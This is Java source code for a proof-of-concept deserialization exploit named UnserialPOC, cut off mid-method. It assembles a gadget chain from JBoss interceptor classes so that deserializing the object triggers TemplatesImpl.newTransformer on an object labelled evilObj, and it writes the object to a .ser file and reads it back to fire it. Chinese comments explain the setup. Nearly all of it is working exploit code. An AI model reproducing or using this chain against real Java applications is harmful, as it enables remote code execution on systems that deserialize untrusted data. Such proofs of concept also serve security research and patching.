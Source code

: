 ```
import org.jboss.interceptor.spi.model.InterceptionType;


import java.io.FileInputStream;
import java.io.FileOutputStream;
import java.io.ObjectInputStream;
import java.io.ObjectOutputStream;
import java.lang.reflect.Constructor;
import java.lang.reflect.Field;
import java.lang.reflect.Method;
import java.util.*;

public class UnserialPOC {
    public static void main(String[] args) throws Exception {
        TemplatesImpl evilObj = getTemplatesImpl();
        Method evilMethod = evilObj.getClass().getMethod(&#34;newTransformer&#34;);

        InterceptionModelBuilder builder = InterceptionModelBuilder.newBuilderFor(HashMap.class);
        ReflectiveClassMetadata metadata = (ReflectiveClassMetadata) ReflectiveClassMetadata.of(HashMap.class);
        InterceptorReference interceptorReference = ClassMetadataInterceptorReference.of(metadata);

        Set<InterceptionType> s = new HashSet<>();
        s.add(InterceptionType.POST_ACTIVATE); // 准备一个 Set, 内容为 InterceptionType.POST_ACTIVATE
        DefaultMethodMetadata methodMetadata = getObjByReflection(DefaultMethodMetadata.class,
                new Class[]{Set.class, MethodReference.class},
                new Object[]{s, MethodReference.of(evilMethod, true)});


        List list = new ArrayList();
        list.add(methodMetadata);
        Map<InterceptionType, List<MethodMetadata>> hashMap = new HashMap<>();
        hashMap.put(InterceptionType.POST_ACTIVATE, list); // 准备一个 Map, Key 为 Set 中存在的内容

        SimpleInterceptorMetadata simpleInterceptorMetadata =
                new SimpleInterceptorMetadata(interceptorReference, true, hashMap);
        builder.interceptAll().with(simpleInterceptorMetadata);
        InterceptionModel model = builder.build();

        HashMap map = new HashMap();
        map.put(&#34;heihu577&#34;, &#34;heihu577&#34;);
        DefaultInvocationContextFactory factory = new DefaultInvocationContextFactory();
        InterceptorInstantiator interceptorInstantiator = new InterceptorInstantiator() {
            public Object createFor(InterceptorReference paramInterceptorReference) {
                return evilObj;
            }
        };
        InterceptorMethodHandler gadget = new InterceptorMethodHandler(map, metadata, model, interceptorInstantiator, factory);
        new ObjectOutputStream(new FileOutputStream(&#34;D:/1.ser&#34;)).writeObject(gadget);
        new ObjectInputStream(new FileInputStream(&#34;D:/1.ser&#34;)).readObject();
    }

    // 通过反射创建实例
    public static <T> T getObjByReflection(Class<T> clazz, Class[] args, Object[] argsValue) throws Exception {
        Constructor declaredConstructor = clazz.getDeclaredConstructor(args);
        declaredConstructor.setAccessible(true);
        return (T) declaredConstructor.newInstance(argsValue);
    }

    public static TemplatesImpl getTemplatesImpl() throws Exception {
        TemplatesImpl templates = new TemplatesImpl();
```